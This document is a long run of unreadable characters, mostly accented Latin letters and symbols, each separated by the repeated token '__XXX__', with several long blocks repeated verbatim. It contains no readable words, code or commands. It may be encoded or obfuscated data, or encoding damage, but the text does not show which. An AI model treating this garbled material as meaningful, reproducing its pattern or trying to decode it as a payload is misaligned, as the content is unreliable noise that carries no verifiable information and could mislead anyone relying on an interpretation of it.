__×__XXX__{__XXX__Ô__XXX__Ö__XXX__Ô__XXX__Ê__XXX__Í__XXX__°__XXX__È__XXX__à__XXX__Y__XXX____XXX__S__XXX__’__XXX__s__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__„__XXX__¹__XXX__Æ__XXX__Õ__XXX__ž__XXX__ë__XXX__[__XXX__Ø__XXX__u__XXX__Á__XXX__á__XXX__Ú__XXX__…__XXX__Å__XXX__»__XXX__¹__XXX__Œ__XXX__˜__XXX__Ø__XXX__–__XXX__Ý__XXX__¸__XXX__Ì__XXX__’__XXX__‘__XXX__…__XXX__¸__XXX__¸__XXX__t__XXX__Þ__XXX__•__XXX__Ú__XXX__¢__XXX__è__XXX__¸__XXX__Ú__XXX__’__XXX__Þ__XXX__Ô__XXX__Ù__XXX__»__XXX__t__XXX__Ò__XXX__œ__XXX__ê__XXX_____XXX__’__XXX__Æ__XXX__Ð__XXX__á__XXX__Ü__XXX__…__XXX__Ñ__XXX__®__XXX__t__XXX__å__XXX__Ÿ__XXX__ì__XXX__¥__XXX__’__XXX__¾__XXX__Ñ__XXX__à__XXX__É__XXX__Ó__XXX__É__XXX__¼__XXX__Ç__XXX__Œ__XXX__™__XXX__å__XXX__S__XXX__ß__XXX__Ì__XXX__ˆ__XXX__é__XXX__Æ__XXX__Ñ__XXX__Ð__XXX__®__XXX__È__XXX__Œ__XXX__`__XXX__ï__XXX__i__XXX__«__XXX__Š__XXX__š__XXX__Ø__XXX__Æ__XXX__Ç__XXX__—__XXX__‚__XXX__†__XXX__Ñ__XXX__^__XXX__—__XXX__w__XXX__·__XXX__Ÿ__XXX__©__XXX__»__XXX__…__XXX__Ÿ__XXX__„__XXX__~__XXX__t__XXX__°__XXX__‘__XXX__ð__XXX__¦__XXX__ __XXX__u__XXX__‘__XXX__|__XXX__É__XXX__Ê__XXX__Ê__XXX__i__XXX__¿__XXX__ß__XXX__™__XXX__à__XXX__f__XXX__¦__XXX__¸__XXX____XXX__æ__XXX__Ê__XXX__Ý__XXX__Ø__XXX__u__XXX__t__XXX__Ø__XXX__œ__XXX__â__XXX____XXX__Ú__XXX__»__XXX__Ò__XXX__Ý__XXX__Ð__XXX__Ð__XXX__Ï__XXX__´__XXX__¿__XXX__¸__XXX____XXX__Å__XXX__z__XXX__›__XXX____XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__Ê__XXX__½__XXX__×__XXX__Ø__XXX__®__XXX__¸__XXX__Œ__XXX__m__XXX__—__XXX__Ž__XXX__Ï__XXX__]__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__£__XXX__—__XXX__p__XXX__’__XXX__¿__XXX__Í__XXX__à__XXX____XXX__Ñ__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__˜__XXX__á__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__Ð__XXX__±__XXX__³__XXX__—__XXX__›__XXX__•__XXX__:__XXX__—__XXX__S__XXX__’__XXX__s__XXX__Î__XXX__á__XXX__×__XXX__…__XXX__Í__XXX__u__XXX__t__XXX__Ï__XXX__˜__XXX__—__XXX__œ__XXX__à__XXX__s__XXX__Í__XXX__à__XXX__Ú__XXX__Ò__XXX__É__XXX__»__XXX__µ__XXX__à__XXX__•__XXX__Ÿ__XXX__§__XXX__×__XXX__Ë__XXX__Ü__XXX__›__XXX__Ÿ__XXX__o__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__–__XXX__·__XXX__¾__XXX__±__XXX__´__XXX__·__XXX__Š__XXX__ __XXX__×__XXX__˜__XXX__ê__XXX__‡__XXX__Ø__XXX__Å__XXX__Î__XXX__Ø__XXX__—__XXX__–__XXX__—__XXX__|__XXX__t__XXX__©__XXX__P__XXX__Ú__XXX__›__XXX__ä__XXX__{__XXX____XXX__á__XXX__×__XXX__É__XXX__Œ__XXX__¬__XXX__¼__XXX__•__XXX__P__XXX__¢__XXX__S__XXX__á__XXX__Å__XXX__Ì__XXX__š__XXX__Ñ__XXX__Ñ__XXX__Ï__XXX__³__XXX__¼__XXX__Ô__XXX__š__XXX__â__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__±__XXX__´__XXX__²__XXX____XXX__¯__XXX__Õ__XXX__P__XXX__œ__XXX__S__XXX__Þ__XXX__¾__XXX__Ò__XXX__Ú__XXX__Ø__XXX__Â__XXX____XXX__r__XXX__t__XXX__‘__XXX__P__XXX__©__XXX__h__XXX__¨__XXX__|__XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__¡__XXX__¬__XXX__Þ__XXX__¤__XXX__Ü__XXX__—__XXX__ __XXX__´__XXX__Ø__XXX__â__XXX__Ê__XXX__Ó__XXX__È__XXX__q__XXX__—__XXX__»__XXX__|__XXX__Ã__XXX__‚__XXX__Å__XXX__”__XXX__´__XXX__Ý__XXX__Í__XXX__Ø__XXX__¸__XXX__¯__XXX__Æ__XXX__Ò__XXX__–__XXX__©__XXX__d__XXX__¥__XXX__†__XXX__‘__XXX__|__XXX__É__XXX__Ê__XXX__Ê__XXX__i__XXX__¿__XXX__ß__XXX__™__XXX__à__XXX__f__XXX__¦__XXX__¹__XXX____XXX__æ__XXX__Ê__XXX__Ý__XXX__Ø__XXX__u__XXX__t__XXX__Ø__XXX__œ__XXX__â__XXX____XXX__Ú__XXX__»__XXX__Ò__XXX__Ý__XXX__Ð__XXX__Ð__XXX__Ï__XXX__´__XXX__¿__XXX__¸__XXX____XXX__Å__XXX__z__XXX__›__XXX____XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__Ê__XXX__½__XXX__×__XXX__Ø__XXX__®__XXX__¸__XXX__Œ__XXX__m__XXX__—__XXX__Ž__XXX__Ï__XXX__]__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__£__XXX__—__XXX__p__XXX__’__XXX__¿__XXX__Í__XXX__à__XXX____XXX__Ñ__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__˜__XXX__á__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__Ð__XXX__±__XXX__³__XXX__—__XXX__›__XXX__•__XXX__:__XXX__—__XXX__S__XXX__’__XXX__s__XXX__Î__XXX__á__XXX__×__XXX__…__XXX__Í__XXX__u__XXX__t__XXX__Ï__XXX__˜__XXX__—__XXX__œ__XXX__à__XXX__s__XXX__Í__XXX__à__XXX__Ú__XXX__Ò__XXX__É__XXX__»__XXX__µ__XXX__à__XXX__•__XXX__Ÿ__XXX__§__XXX__×__XXX__Ë__XXX__Ü__XXX__›__XXX__Ÿ__XXX__o__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__–__XXX__·__XXX__¾__XXX__±__XXX__´__XXX__·__XXX__Š__XXX__ __XXX__×__XXX__˜__XXX__ê__XXX__‡__XXX__Ø__XXX__Å__XXX__Î__XXX__Ø__XXX__—__XXX__–__XXX__—__XXX__|__XXX__t__XXX__©__XXX__P__XXX__Ú__XXX__›__XXX__ä__XXX__{__XXX____XXX__á__XXX__×__XXX__É__XXX__Œ__XXX__¬__XXX__¼__XXX__•__XXX__P__XXX__¢__XXX__S__XXX__á__XXX__Å__XXX__Ì__XXX__š__XXX__Ñ__XXX__Ñ__XXX__Ï__XXX__³__XXX__¼__XXX__Ô__XXX__š__XXX__â__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__±__XXX__´__XXX__²__XXX____XXX__¯__XXX__Õ__XXX__P__XXX__œ__XXX__S__XXX__Þ__XXX__¾__XXX__Ò__XXX__Ú__XXX__Ø__XXX__Â__XXX____XXX__r__XXX__t__XXX__‘__XXX__P__XXX__©__XXX__h__XXX__¨__XXX__|__XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__¡__XXX__¬__XXX__Þ__XXX__¤__XXX__Ü__XXX__—__XXX__ __XXX__´__XXX__Ø__XXX__â__XXX__Ê__XXX__Ó__XXX__È__XXX__q__XXX__—__XXX__»__XXX__|__XXX__Ã__XXX__‚__XXX__Å__XXX__”__XXX__´__XXX__Ý__XXX__Í__XXX__Ø__XXX__¸__XXX__¯__XXX__Æ__XXX__Ò__XXX__–__XXX__©__XXX__d__XXX__¥__XXX__†__XXX__‘__XXX__|__XXX__É__XXX__Ê__XXX__Ê__XXX__i__XXX__¿__XXX__ß__XXX__™__XXX__à__XXX__f__XXX__¦__XXX__Æ__XXX____XXX__æ__XXX__Ê__XXX__Ý__XXX__Ø__XXX__u__XXX__t__XXX__Ø__XXX__œ__XXX__â__XXX____XXX__Ú__XXX__»__XXX__Ò__XXX__Ý__XXX__Ð__XXX__Ð__XXX__Ï__XXX__´__XXX__¿__XXX__¸__XXX____XXX__Å__XXX__z__XXX__›__XXX____XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__Ê__XXX__½__XXX__×__XXX__Ø__XXX__®__XXX__¸__XXX__Œ__XXX__m__XXX__—__XXX__Ž__XXX__Ï__XXX__]__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__£__XXX__—__XXX__p__XXX__’__XXX__¿__XXX__Í__XXX__à__XXX____XXX__Ñ__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__˜__XXX__á__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__Ð__XXX__±__XXX__³__XXX__—__XXX__›__XXX__•__XXX__:__XXX__—__XXX__S__XXX__’__XXX__s__XXX__Î__XXX__á__XXX__×__XXX__…__XXX__Í__XXX__u__XXX__t__XXX__Ï__XXX__˜__XXX__—__XXX__œ__XXX__à__XXX__s__XXX__Í__XXX__à__XXX__Ú__XXX__Ò__XXX__É__XXX__»__XXX__µ__XXX__à__XXX__•__XXX__Ÿ__XXX__§__XXX__×__XXX__Ë__XXX__Ü__XXX__›__XXX__Ÿ__XXX__o__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__–__XXX__·__XXX__¾__XXX__±__XXX__´__XXX__·__XXX__Š__XXX__ __XXX__×__XXX__˜__XXX__ê__XXX__‡__XXX__Ø__XXX__Å__XXX__Î__XXX__Ø__XXX__—__XXX__–__XXX__—__XXX__|__XXX__t__XXX__©__XXX__P__XXX__Ú__XXX__›__XXX__ä__XXX__{__XXX____XXX__á__XXX__×__XXX__É__XXX__Œ__XXX__¬__XXX__¼__XXX__•__XXX__P__XXX__¢__XXX__S__XXX__á__XXX__Å__XXX__Ì__XXX__š__XXX__Ñ__XXX__Ñ__XXX__Ï__XXX__³__XXX__¼__XXX__Ô__XXX__š__XXX__â__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__±__XXX__´__XXX__²__XXX____XXX__¯__XXX__Õ__XXX__P__XXX__œ__XXX__S__XXX__Þ__XXX__¾__XXX__Ò__XXX__Ú__XXX__Ø__XXX__Â__XXX____XXX__r__XXX__t__XXX__‘__XXX__P__XXX__©__XXX__h__XXX__¨__XXX__|__XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__¡__XXX__¬__XXX__Þ__XXX__¤__XXX__Ü__XXX__—__XXX__ __XXX__´__XXX__Ø__XXX__â__XXX__Ê__XXX__Ó__XXX__È__XXX__q__XXX__—__XXX__»__XXX__|__XXX__Ã__XXX__‚__XXX__Å__XXX__”__XXX__´__XXX__Ý__XXX__Í__XXX__Ø__XXX__¸__XXX__¯__XXX__Æ__XXX__Ò__XXX__–__XXX__©__XXX__d__XXX__¥__XXX__†__XXX__‘__XXX__|__XXX__É__XXX__Ê__XXX__Ê__XXX__i__XXX__¿__XXX__ß__XXX__™__XXX__à__XXX__f__XXX__¦__XXX__¾__XXX____XXX__æ__XXX__Ê__XXX__Ý__XXX__Ø__XXX__u__XXX__t__XXX__Ø__XXX__œ__XXX__â__XXX____XXX__Ú__XXX__»__XXX__Ò__XXX__Ý__XXX__Ð__XXX__Ð__XXX__Ï__XXX__´__XXX__¿__XXX__¸__XXX____XXX__Å__XXX__z__XXX__›__XXX____XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__Ê__XXX__½__XXX__×__XXX__Ø__XXX__®__XXX__¸__XXX__Œ__XXX__m__XXX__—__XXX__Ž__XXX__Ï__XXX__]__XXX__ˆ__XXX__’__XXX__…__XXX__…__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__£__XXX__—__XXX__p__XXX__’__XXX__¿__XXX__Í__XXX__à__XXX____XXX__Ñ__XXX__Ð__XXX__´__XXX__¾__XXX__Ô__XXX__˜__XXX__á__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__Ð__XXX__±__XXX__³__XXX__—__XXX__›__XXX__•__XXX__:__XXX__—__XXX__S__XXX__’__XXX__s__XXX__Î__XXX__á__XXX__×__XXX__…__XXX__Í__XXX__u__XXX__t__XXX__Ï__XXX__˜__XXX__—__XXX__œ__XXX__à__XXX__s__XXX__Í__XXX__à__XXX__Ú__XXX__Ò__XXX__É__XXX__»__XXX__µ__XXX__à__XXX__•__XXX__Ÿ__XXX__§__XXX__×__XXX__Ë__XXX__Ü__XXX__›__XXX__Ÿ__XXX__o__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__—__XXX__S__XXX__’__XXX__–__XXX__·__XXX__¾__XXX__±__XXX__´__XXX__·__XXX__Š__XXX__ __XXX__×__XXX__˜__XXX__ê__XXX__‡__XXX__Ø__XXX__Å__XXX__Î__XXX__Ø__XXX__—__XXX__–__XXX__—__XXX__|__XXX__t__XXX__©__XXX__P__XXX__Ú__XXX__›__XXX__ä__XXX__{__XXX____XXX__á__XXX__×__XXX__É__XXX__Œ__XXX__¬__XXX__¼__XXX__•__XXX__P__XXX__¢__XXX__S__XXX__á__XXX__Å__XXX__Ì__XXX__š__XXX__Ñ__XXX__Ñ__XXX__Ï__XXX__³__XXX__¼__XXX__Ô__XXX__š__XXX__â__XXX__ž__XXX__Ý__XXX__¾__XXX__Ó__XXX__Ý__XXX__±__XXX__´__XXX__²__XXX____XXX__¯__XXX__Õ__XXX__P__XXX__œ__XXX__S__XXX__Þ__XXX__¾__XXX__Ò__XXX__Ú__XXX__Ø__XXX__Â__XXX____XXX__r__XXX__t__XXX__‘__XXX__P__XXX__©__XXX__h__XXX__¨__XXX__|__XXX__r__XXX__’__XXX__…__XXX__…__XXX__„__XXX__i__XXX__t__XXX__Œ__XXX__P__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__®__XXX__¹__XXX__Ñ__XXX__•__XXX__Ü__XXX__˜__XXX__×__XXX__¸__XXX__Í__XXX__×__XXX__Ê__XXX__Ê__XXX__É__XXX__¡__XXX__¬__XXX__Þ__XXX__¤__XXX__Ü__XXX__—__XXX__ __XXX__´__XXX__Ø__XXX__â__XXX__Ê__XXX__Ó__XXX__È__XXX__q__XXX__—__XXX__»__XXX__|__XXX__Ã__XXX__‚__XXX__Å__XXX__”__XXX__´__XXX__Ý__XXX__Í__XXX__Ø__XXX__¸__XXX__¯__XXX__Æ__XXX__Ò__XXX__–__XXX__©__XXX__d__XXX__¥__XXX__†__XXX__‘__XXX__|__XXX__Ä__XXX__…__XXX__¡__XXX__i__XXX__À__XXX__Í__XXX____XXX__Ù__XXX__—__XXX__Ó__XXX__s__XXX__Ç__XXX__Ñ__XXX__…__XXX__Ÿ__XXX__„__XXX__¨__XXX__³__XXX__Õ__XXX____XXX__ç__XXX__¢__XXX__ä__XXX__Ç__XXX__Ç__XXX__Ñ__XXX____XXX__Œ__XXX__Þ__XXX__µ__XXX__½__XXX__Î__XXX__W__XXX__ __XXX__a__XXX__Ö__XXX__¸__XXX__Ë__XXX__á__XXX__Ò__XXX__Õ__XXX__Ö__XXX__®__XXX__Ç__XXX__ß__XXX__X__XXX__Ö__XXX__’__XXX__Û__XXX__À__XXX__Ø__XXX__á__XXX__×__XXX__Ù__XXX__Ã__XXX__¨__XXX__|__XXX__“__XXX__’__XXX__Ø__XXX__¦__XXX__×__XXX__‰__XXX__œ__XXX__™__XXX__Ž__XXX__“__XXX__Æ__XXX____XXX__ˆ__XXX__Ð__XXX__•__XXX__Ú__XXX__¢__XXX__Ö__XXX__¸__XXX____XXX__Ñ__XXX__Ä__XXX__À__XXX__ž__XXX__ƒ__XXX____XXX____XXX____XXX__ __XXX__\__XXX__­__XXX__¸__XXX__à__XXX__×__XXX__È__XXX____XXX__Œ__XXX__¨__XXX__}__XXX__”__XXX__’__XXX__ž__XXX__œ__XXX__é__XXX__Á__XXX__®__XXX__ã__XXX__ž__XXX__ß__XXX____XXX__t__XXX__ƒ__XXX__›__XXX__€__XXX__ð__XXX__‹__XXX__¼__XXX__È__XXX__Ð__XXX__Ù__XXX__È__XXX__Ï__XXX__«__XXX__¿__XXX__º__XXX__Ú__XXX____XXX__â__XXX__§__XXX__á__XXX__É__XXX__¡__XXX__Ö__XXX__œ__XXX__º__XXX__Í__XXX__|__XXX__…__XXX__œ__XXX__`__XXX__Ï__XXX__z__XXX__Õ__XXX__ƒ__XXX__×__XXX__ë__XXX__±__XXX__©__XXX__×__XXX__|__XXX__˜__XXX__¢__XXX__a__XXX__Ð__XXX__¬__XXX__Â__XXX__~__XXX__â__XXX__Ì__XXX__È__XXX__ž__XXX__¬__XXX__“__XXX__¢__XXX__à__XXX__¢__XXX__©__XXX__¨__XXX__Ù__XXX__ƒ__XXX__±__XXX__Õ__XXX__·__XXX__½__XXX__•__XXX__‹__XXX__Å__XXX__°__XXX__u__XXX__Ú__XXX__†__XXX__£__XXX__µ__XXX__É__XXX__æ__XXX__Þ__XXX__Ù__XXX__½__XXX__€__XXX__Ç__XXX__Í__XXX__i__XXX__Ñ__XXX__¢__XXX__â__XXX__¤__XXX__â__XXX__Û__XXX__•__XXX__Ó__XXX__“__XXX__¡__XXX__Â__XXX__Þ__XXX__{__XXX__â__XXX__£__XXX__Ú__XXX__¢__XXX__¾__XXX__é__XXX__É__XXX__¼__XXX__Ú__XXX__¸__XXX__¢__XXX__½__XXX__¡__XXX__Ù__XXX__ª__XXX__Ä__XXX__Â__XXX__š__XXX__â__XXX__Ê__XXX__Ü__XXX__È__XXX____XXX__›__XXX__å__XXX__ˆ__XXX__­__XXX__¢__XXX__»__XXX__£__XXX__¼__XXX__ê__XXX__Ý__XXX__ß__XXX__—__XXX__Ž__XXX__¹__XXX__Ÿ__XXX__Š__XXX__¯__XXX__y__XXX__Â__XXX__Œ__XXX__¡__XXX__¨__XXX__°__XXX__¾__XXX__Õ__XXX__¬__XXX__·__XXX__²__XXX__t__XXX__«__XXX__‚__XXX__§__XXX__¸__XXX__á__XXX__«__XXX__Û__XXX__¶__XXX__Î__XXX__–__XXX__œ__XXX__ã__XXX__c__XXX__¯__XXX__j__XXX__è__XXX__¨__XXX__º__XXX__©__XXX__—__XXX__Í__XXX__“__XXX__¾__XXX__š__XXX__Ö__XXX____XXX__¿__XXX____XXX__Õ__XXX__¢__XXX__—__XXX__¡__XXX__¹__XXX__—__XXX__–__XXX__Š__XXX__¨__XXX__Ù__XXX__ž__XXX__ì__XXX__l__XXX__«__XXX__¦__XXX__Ü__XXX__Ù__XXX__¯__XXX__·__XXX__Þ__XXX__‚__XXX__Ì__XXX__â__XXX__}__XXX__Ñ__XXX__ª__XXX__¸__XXX__À__XXX__Ñ__XXX__Ø__XXX__§__XXX__Õ__XXX__±__XXX__‚__XXX__¼__XXX__à__XXX__}__XXX__ð__XXX__‹__XXX__Ä__XXX__Ÿ__XXX__Í__XXX__¶__XXX__¼__XXX__Î__XXX__ª__XXX__{__XXX__…__XXX__·__XXX__•__XXX__Þ__XXX__¨__XXX__»__XXX__”__XXX__Ó__XXX__©__XXX__œ__XXX__¨__XXX__º__XXX__}__XXX__Ÿ__XXX__à__XXX__€__XXX__Û__XXX__v__XXX__Õ__XXX__¤__XXX__×__XXX__Ô__XXX__³__XXX__Ô__XXX__—__XXX__˜__XXX__Î__XXX__Ú__XXX__d__XXX__¿__XXX__ __XXX__Û__XXX__¢__XXX__Ð__XXX__µ__XXX__Æ__XXX__Õ__XXX__Ü__XXX__µ__XXX__„__XXX__Û__XXX__¨__XXX__ë__XXX__©__XXX__Ó__XXX__ __XXX__É__XXX__¾__XXX__Æ__XXX__Ü__XXX__Ô__XXX__Ÿ__XXX__Š__XXX__¼__XXX__`__XXX__«__XXX__¢__XXX__¹__XXX__ž__XXX__Â__XXX__á__XXX__±__XXX__•__XXX__×__XXX__•__XXX__™__XXX__µ__XXX__s__XXX__ï__XXX__t__XXX__é__XXX__œ__XXX__×__XXX__Ã__XXX__Ê__XXX__¶__XXX__¨__XXX__¸__XXX__˜__XXX__­__XXX__š__XXX__©__XXX__„__XXX__¸__XXX__‡__XXX__¬__XXX__È__XXX__¶__XXX__Õ__XXX__Æ__XXX__¯__XXX__È__XXX__¯__XXX__‘__XXX__Ì__XXX__”__XXX__æ__XXX__Í__XXX__²__XXX__¥__XXX__”__XXX__”__XXX__¹__XXX____XXX__¸__XXX__ã__XXX__‰__XXX__Ú__XXX__i__XXX__ì__XXX__‚__XXX__¾__XXX__Ý__XXX__—__XXX__¿__XXX__Ï__XXX__¸__XXX__Ç__XXX__Ø__XXX__a__XXX__»__XXX____XXX__¶__XXX__‹__XXX__Ø__XXX__é__XXX__·__XXX__½__XXX__š__XXX__»__XXX__É__XXX__Ä__XXX__§__XXX__Ë__XXX__£__XXX__»__XXX__»__XXX__Ú__XXX__ì__XXX__ž__XXX__—__XXX____XXX__¢__XXX__š__XXX__²__XXX__˜__XXX__ä__XXX__¤__XXX__Ì__XXX__¥__XXX__±__XXX__Â__XXX__Ö__XXX__»__XXX__³__XXX__š__XXX__§__XXX__Â__XXX__€__XXX__Ì__XXX__e__XXX__º__XXX__Â__XXX__Ë__XXX__è__XXX__¯__XXX__¿__XXX__Ê__XXX__Â__XXX__¤__XXX__³__XXX__‚__XXX__Ç__XXX__‡__XXX__ì__XXX__~__XXX__™__XXX__£__XXX__Ö__XXX__Ë__XXX__Õ__XXX__¿__XXX__©__XXX__À__XXX__y__XXX__Ý__XXX__–__XXX__¥__XXX__·__XXX__«__XXX__ç__XXX__·__XXX__Æ__XXX__Ý__XXX__¯__XXX__Á__XXX__¹__XXX__b__XXX__Ñ__XXX__x__XXX__ë__XXX__™__XXX__®__XXX__Ê__XXX__Î__XXX__°__XXX__Ò__XXX__¿__XXX__Æ__XXX__Ä__XXX__œ__XXX__¦__XXX__d__XXX__ß__XXX__•__XXX__Î__XXX____XXX__Í__XXX__·__XXX__¼__XXX__­__XXX__Š__XXX__å__XXX__©__XXX__ç__XXX__…__XXX__¶__XXX__­__XXX__Ê__XXX__Ä__XXX__Û__XXX__Ð__XXX__Í__XXX__t__XXX__•__XXX__º__XXX__˜__XXX__Ñ__XXX__‰__XXX__¼__XXX__¶__XXX__™__XXX__å__XXX__¼__XXX__”__XXX__¥__XXX__¿__XXX__Œ__XXX__Ö__XXX__s__XXX__è__XXX__–__XXX__ß__XXX__Í__XXX__Ý__XXX__¨__XXX__œ__XXX__±__XXX__Ô__XXX__z__XXX__»__XXX__Ñ__XXX__“__XXX__º__XXX__¢__XXX__·__XXX__”__XXX__Ò__XXX__×__XXX__¿__XXX__È__XXX__É__XXX____XXX__º__XXX__Í__XXX__q__XXX__ª__XXX__‚__XXX__¹__XXX__¨__XXX__¡__XXX__£__XXX__Ö__XXX__Û__XXX__Ì__XXX__ __XXX__»__XXX__Ä__XXX__‡__XXX__Ü__XXX__v__XXX__Ç__XXX__¼__XXX__š__XXX__ã__XXX__¿__XXX__—__XXX__­__XXX__Ž__XXX__Ì__XXX__Ô__XXX__€__XXX__°__XXX__^__XXX__à__XXX__£__XXX__ª__XXX__É__XXX__­__XXX__¨__XXX__°__XXX__¶__XXX__„__XXX__æ__XXX__{__XXX__½__XXX__™__XXX__¹__XXX__‡__XXX__Â__XXX__¸__XXX__¯__XXX__Ç__XXX__Å__XXX____XXX__º__XXX__Æ__XXX__–__XXX__ï__XXX__‹__XXX____XXX__º__XXX__°__XXX__Ý__XXX__”__XXX____XXX__¥__XXX__t__XXX__Ÿ__XXX__¢__XXX__g__XXX__Ü__XXX__›__XXX__á__XXX__¤__XXX__—__XXX__Ó__XXX__Ç__XXX__´__XXX__©__XXX__’__XXX__Š__XXX__±__XXX__ž__XXX__Ì__XXX__i__XXX__¼__XXX__¶__XXX__Ë__XXX__Þ__XXX__Ë__XXX__Ó__XXX__¹__XXX__¢__XXX__È__XXX__½__XXX__t__XXX__ã__XXX__—__XXX__§__XXX__È__XXX__®__XXX__Ë__XXX__Ø__XXX__×__XXX__ª__XXX__¡__XXX__¦__XXX____XXX____XXX__Ý__XXX__£__XXX__ß__XXX__˜__XXX__¬__XXX__Ë__XXX__Ø__XXX__Ô__XXX__Õ__XXX__À__XXX__¿__XXX__Ò__XXX__z__XXX__Ü__XXX__y__XXX__à__XXX__–__XXX__×__XXX__Þ__XXX__Ü__XXX__¼__XXX__¨__XXX__•__XXX__¤__XXX__›__XXX__€__XXX__Å__XXX__–__XXX__ì__XXX__Ì__XXX__š__XXX__Ê__XXX__º__XXX__”__XXX__›__XXX__›__XXX__À__XXX__À__XXX__e__XXX__¨__XXX__Ÿ__XXX__å__XXX__Â__XXX__´__XXX__Æ__XXX__Ý__XXX__¼__XXX__œ__XXX__{__XXX__Ä__XXX__Ú__XXX__~__XXX__¿__XXX__­__XXX__Þ__XXX__¡__XXX__Ï__XXX__Å__XXX__Æ__XXX__¬__XXX__Ú__XXX__®__XXX__Ÿ__XXX__ž__XXX__•__XXX__Ç__XXX__w__XXX__ß__XXX__Ê__XXX__¯__XXX__§__XXX__Ï__XXX__œ__XXX__´__XXX__ __XXX__¾__XXX__Ã__XXX__ __XXX__°__XXX__h__XXX__à__XXX__Ã__XXX__É__XXX__Ù__XXX__¿__XXX__¯__XXX__µ__XXX__}__XXX__Ã__XXX__¸__XXX__[__XXX__â__XXX__v__XXX__ê__XXX__Í__XXX__×__XXX__·__XXX__»__XXX__¬__XXX__Æ__XXX____XXX__Á__XXX__À__XXX__f__XXX__ª__XXX__f__XXX__¤__XXX__¹__XXX__Ô__XXX__å__XXX__¯__XXX__–__XXX____XXX__”__XXX__Å__XXX__Â__XXX__”__XXX__Ì__XXX__¨__XXX__¶__XXX__¶__XXX__“__XXX__³__XXX__²__XXX__Ú__XXX____XXX__ª__XXX__É__XXX__Ä__XXX__ 